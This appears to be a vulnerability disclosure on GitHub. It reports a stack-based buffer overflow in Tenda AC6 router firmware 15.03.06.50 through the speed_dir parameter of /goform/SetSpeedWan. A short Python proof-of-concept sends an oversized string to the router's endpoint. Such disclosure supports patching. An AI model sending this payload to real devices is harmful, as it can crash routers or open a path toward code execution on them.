



# Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/SetSpeedWan`. When `speed_dir` is specified with excessive data, the buffer overflow occurs during string concatenation operations.


## poc




## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'speed_dir': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xfa * b'A'
send_payload("http://10.10.10.1/goform/SetSpeedWan", payload)
```
